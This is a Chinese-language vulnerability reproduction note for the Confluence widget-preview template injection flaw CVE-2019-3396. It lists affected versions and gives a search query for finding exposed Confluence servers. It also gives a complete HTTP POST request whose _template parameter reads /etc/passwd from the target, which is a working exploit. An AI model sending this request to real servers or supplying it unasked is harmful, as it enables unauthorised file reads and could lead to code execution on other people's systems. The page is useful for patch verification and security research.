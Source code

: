 # 

# Atlassian Confluence preview SSTI模版注入漏洞 CVE-2019-3396

## 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。 利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

## 漏洞影响

```
Atlassian Atlassian Confluence < 6.6.12
Atlassian Atlassian Confluence 6.7.0-6.12.2
Atlassian Atlassian Confluence < 6.13.3
Atlassian Atlassian Confluence < 6.14.2
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

登录页面

![image-20220524142010885](./images/202205241421261.png)

发送请求包

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3670.0 Safari/537.36
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```
